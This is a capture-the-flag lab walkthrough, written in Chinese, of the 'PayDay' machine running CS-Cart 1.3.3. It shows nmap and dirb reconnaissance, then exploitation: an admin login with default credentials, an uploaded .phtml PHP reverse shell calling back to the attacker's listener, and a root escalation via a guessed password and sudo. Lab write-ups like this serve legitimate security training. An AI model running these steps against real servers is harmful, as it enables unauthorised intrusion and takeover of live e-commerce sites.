


# PayDay

### Nmap Scaning 

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A 192.168.176.39 -p-    

Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-04 14:35 CST
Nmap scan report for 192.168.176.39
Host is up (0.071s latency).
Not shown: 65527 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 f3:6e:87:04:ea:2d:b3:60:ff:42:ad:26:67:17:94:d5 (DSA)
|_  2048 bb:03:ce:ed:13:f1:9a:9e:36:03:e2:af:ca:b2:35:04 (RSA)
80/tcp  open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: CS-Cart. Powerful PHP shopping cart software
110/tcp open  pop3        Dovecot pop3d
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_pop3-capabilities: CAPA TOP UIDL RESP-CODES STLS PIPELINING SASL
|_ssl-date: 2024-12-04T06:36:57+00:00; +7s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: NAMESPACE completed IMAP4rev1 Capability MULTIAPPEND LITERAL+ UNSELECT LOGINDISABLEDA0001 SORT STARTTLS SASL-IR THREAD=REFERENCES IDLE LOGIN-REFERRALS CHILDREN OK
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_ssl-date: 2024-12-04T06:36:57+00:00; +7s from scanner time.
445/tcp open            Samba smbd 3.0.26a (workgroup: MSHOME)
993/tcp open  ssl/imap    Dovecot imapd
|_ssl-date: 2024-12-04T06:36:58+00:00; +7s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_imap-capabilities: NAMESPACE completed IMAP4rev1 MULTIAPPEND LITERAL+ Capability UNSELECT SORT AUTH=PLAINA0001 SASL-IR THREAD=REFERENCES IDLE LOGIN-REFERRALS CHILDREN OK
995/tcp open  ssl/pop3    Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_pop3-capabilities: CAPA TOP UIDL RESP-CODES PIPELINING USER SASL(PLAIN)
|_ssl-date: 2024-12-04T06:36:57+00:00; +7s from scanner time.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=12/4%OT=22%CT=1%CU=32664%PV=Y%DS=4%DC=T%G=Y%TM=674FF88
OS:4%P=aarch64-unknown-linux-gnu)SEQ(SP=C9%GCD=1%ISR=EF%TI=Z%CI=Z%II=I%TS=7
OS:)SEQ(SP=CB%GCD=1%ISR=EF%TI=Z%CI=Z%II=I%TS=7)SEQ(SP=CC%GCD=1%ISR=EF%TI=Z%
OS:CI=Z%II=I%TS=7)SEQ(SP=CD%GCD=1%ISR=EF%TI=Z%CI=Z%II=I%TS=7)SEQ(SP=D2%GCD=
OS:1%ISR=EF%TI=Z%CI=Z%II=I%TS=7)OPS(O1=M578ST11NW5%O2=M578ST11NW5%O3=M578NN
OS:T11NW5%O4=M578ST11NW5%O5=M578ST11NW5%O6=M578ST11)WIN(W1=16A0%W2=16A0%W3=
OS:16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M578NNSNW5%CC=N%
OS:Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IP
OS:L=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 50m07s, deviation: 2h02m28s, median: 6s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: payday
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: payday
|_  System time: 2024-12-04T01:36:52-05:00

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   72.93 ms 192.168.45.1
2   72.80 ms 192.168.45.254
3   72.99 ms 192.168.251.1
4   73.14 ms 192.168.176.39
```

### Enumerate web directories

想說找一下有沒有有用的頁面，但是跑太久了，我就直接中斷了

```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.176.39

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Dec  4 14:42:54 2024
URL_BASE: http://192.168.176.39/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.176.39/ ----
==> DIRECTORY: http://192.168.176.39/addons/                                         
+ http://192.168.176.39/admin (CODE:200|SIZE:9483)                                   
+ http://192.168.176.39/admin.php (CODE:200|SIZE:9483)                               
==> DIRECTORY: http://192.168.176.39/catalog/                                        
+ http://192.168.176.39/cgi-bin/ (CODE:403|SIZE:308)                                 
+ http://192.168.176.39/chart (CODE:200|SIZE:0)                                      
==> DIRECTORY: http://192.168.176.39/classes/                                        
+ http://192.168.176.39/config (CODE:200|SIZE:13)                                    
==> DIRECTORY: http://192.168.176.39/core/                                           
+ http://192.168.176.39/image (CODE:200|SIZE:1971)                                   
==> DIRECTORY: http://192.168.176.39/images/                                         
==> DIRECTORY: http://192.168.176.39/include/                                        
+ http://192.168.176.39/index (CODE:200|SIZE:28074)                                  
+ http://192.168.176.39/index.php (CODE:200|SIZE:28074)                              
+ http://192.168.176.39/init (CODE:200|SIZE:13)                                      
+ http://192.168.176.39/install (CODE:200|SIZE:7731)                                 
==> DIRECTORY: http://192.168.176.39/payments/                                       
+ http://192.168.176.39/prepare (CODE:200|SIZE:0)                                    
+ http://192.168.176.39/server-status (CODE:403|SIZE:313)                            
==> DIRECTORY: http://192.168.176.39/skins/                                          
+ http://192.168.176.39/store_closed (CODE:200|SIZE:575)                             
+ http://192.168.176.39/Thumbs.db (CODE:200|SIZE:1)                                  
==> DIRECTORY: http://192.168.176.39/var/                                            
                                                                                     
---- Entering directory: http://192.168.176.39/addons/ ----
==> DIRECTORY: http://192.168.176.39/addons/ads/                                     
+ http://192.168.176.39/addons/index (CODE:302|SIZE:0)                               
+ http://192.168.176.39/addons/index.php (CODE:302|SIZE:0)                           
==> DIRECTORY: http://192.168.176.39/addons/manufacturers/                           
==> DIRECTORY: http://192.168.176.39/addons/product_reviews/                         
==> DIRECTORY: http://192.168.176.39/addons/send_to_friend/                          
                                                                                     
---- Entering directory: http://192.168.176.39/catalog/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                     
---- Entering directory: http://192.168.176.39/classes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                     
---- Entering directory: http://192.168.176.39/core/ ----
+ http://192.168.176.39/core/addons (CODE:200|SIZE:13)                               
+ http://192.168.176.39/core/https (CODE:200|SIZE:13)                                
+ http://192.168.176.39/core/index (CODE:302|SIZE:0)                                 
+ http://192.168.176.39/core/index.php (CODE:302|SIZE:0)                             
+ http://192.168.176.39/core/install (CODE:200|SIZE:3100)                            
+ http://192.168.176.39/core/languages (CODE:200|SIZE:13)                            
+ http://192.168.176.39/core/notification (CODE:200|SIZE:13)                         
+ http://192.168.176.39/core/sessions (CODE:200|SIZE:132)                            
+ http://192.168.176.39/core/skins (CODE:200|SIZE:13)                                
+ http://192.168.176.39/core/tests (CODE:200|SIZE:13)                                
+ http://192.168.176.39/core/user (CODE:200|SIZE:13)                                 
                                                                                     
---- Entering directory: http://192.168.176.39/images/ ----
+ http://192.168.176.39/images/index (CODE:302|SIZE:0)                               
+ http://192.168.176.39/images/index.php (CODE:302|SIZE:0)      
```

### Search exploits of cs-cart by serachsploit and check version

找路徑的時候順便尋找網站框架的相關漏洞，從網站底部可以看到是使用 CS-Cart 所建立的，於是透過 searchsploit 查一下，但發現版本也還沒確認...

```
┌──(kali㉿kali)-[~]
└─$ searchsploit cs-cart
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
CS-Cart - Multiple SQL Injections                   | php/webapps/27030.txt
CS-Cart 1.3.2 - 'index.php' Cross-Site Scripting    | php/webapps/31443.txt
CS-Cart 1.3.3 - 'classes_dir' LFI                   | php/webapps/48890.txt
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion | php/webapps/1872.txt
CS-Cart 1.3.3 - 'install.php' Cross-Site Scripting  | multiple/webapps/14962.txt
CS-Cart 1.3.3 - authenticated RCE                   | php/webapps/48891.txt
CS-Cart 1.3.5 - Authentication Bypass               | php/webapps/6352.txt
CS-Cart 2.0.0 Beta 3 - 'Product_ID' SQL Injection   | php/webapps/8184.txt
CS-Cart 2.0.5 - 'reward_points.post.php' SQL Inject | php/webapps/33146.txt
CS-Cart 2.2.1 - 'products.php' SQL Injection        | php/webapps/36093.txt
CS-Cart 4.2.4 - Cross-Site Request Forgery          | php/webapps/36358.html
CS-Cart 4.3.10 - XML External Entity Injection      | php/webapps/40770.txt
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

上網找到 [CS-Cart 如何確認版本](https://medium.com/10-strong-points-of-cs-cart-solution/how-to-check-cs-cart-version-on-the-installed-store-c3121dac546c)：

```
http://www.your-domain.com?version
```

順利找到靶機版本 1.3.3


接著看版本符合的漏洞，直接看 RCE 相關的

```
┌──(kali㉿kali)-[~/Desktop/tmp_pen200]
└─$ searchsploit -m 48891
  Exploit: CS-Cart 1.3.3 - authenticated RCE
      URL: https://www.exploit-db.com/exploits/48891
     Path: /usr/share/exploitdb/exploits/php/webapps/48891.txt
    Codes: N/A
 Verified: False
File Type: ASCII text
Copied to: /home/kali/Desktop/tmp_pen200/48891.txt


                                                                                      
┌──(kali㉿kali)-[~/Desktop/tmp_pen200]
└─$ cat 48891.txt        
# Exploit Title: CS-Cart authenticated RCE
# Date: 2020-09-22
# Exploit Author:  0xmmnbassel
# Vendor Homepage: https://www.cs-cart.com/e-commerce-platform.html
# Tested at: ver. 1.3.3
# Vulnerability Type: authenticated RCE


get PHP shells from
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
edit IP && PORT
Upload to file manager
change the extension from .php to .phtml
visit http://[victim]/skins/shell.phtml --> Profit. ...!                                                         
```

在 gist 上面找到更詳細的[教學](https://gist.github.com/momenbasel/ccb91523f86714edb96c871d4cf1d05c?permalink_comment_id=3790454#gistcomment-3790454)



現在跟隨步驟嘗試 RCE

### Try RCE by CS-Cart 1.3.3 - authenticated RCE
[PoC](https://www.exploit-db.com/exploits/48891)

#### Login on admin.php by default credentials

找到登入頁面後，使用預設的帳號密碼成功登入（admin/admin）


#### Upload the reverse shell and get first flag

上網找一個 [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 並更改副檔名為 `.phtml`。將檔案透過上面教學的方式上傳，並在 Kali 啟動監聽器等待 reverse shell 連回來。  
連上後，確認身份，並取得第一個 flag。

```                                                       
┌──(kali㉿kali)-[~/penelope]
└─$ python penelope.py 80

[+] Listening for reverse shells on 0.0.0.0:80 →  127.0.0.1 • 192.168.64.2 • 172.17.0.1 • 192.168.45.156                                                                    
➤  💀 Show Payloads (p) 🏠 Main Menu (m) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from 🐧 192.168.176.39 😍 - Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/192.168.176.39/192.168.176.39.log 📜
www-data@payday:/$ whoami                                                            
www-data
www-data@payday:/$ ls
bin   cdrom  etc   initrd      lib         media  opt   root  srv  tmp  var
boot  dev    home  initrd.img  lost+found  mnt    proc  sbin  sys  usr  vmlinuz
www-data@payday:/$ cd home
www-data@payday:/home$ ls
patrick
www-data@payday:/home$ cd patrick/
www-data@payday:/home/patrick$ ls
local.txt
www-data@payday:/home/patrick$ cat local*
09dbc6fd4d2fa4b494b66ef6d547ff72
```

### Try to privilege escalation

#### Find the exploit by linpeas
將 linpeas.sh 也上傳上去後執行，尋找有用的提權漏洞。但沒什麼可用的地方，只有找到 MySQL 也是使用預設帳密



#### Login another user - patrick, get second flag

因為嘗試很久都沒有什麼想法，可能是身份不對，所以想說換一個身份看看，使用 patrick/patrick 就成功登入這個身份了。再使用 `sudo -l` 發現 patrick 可以以系統管理員的身份去執行指令，成功找到第二個 flag，底下附上指令流程

```
www-data@payday:/var/www/skins$ whoami
www-data
www-data@payday:/var/www/skins$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@payday:/var/www/skins$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for www-data:
sudo: pam_authenticate: Conversation error
www-data@payday:/var/www/skins$ su patrick
Password: 
patrick@payday:/var/www/skins$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
patrick@payday:/var/www/skins$ sudo su
root@payday:/var/www/skins# id
uid=0(root) gid=0(root) groups=0(root)
root@payday:/var/www/skins# cd /root/
root@payday:~# cat 
.bash_history  capture.cap    proof.txt      
.bashrc        .profile       .ssh/
root@payday:~# cat pr*
8f42c125de697c586c194fcf9853c339                    
```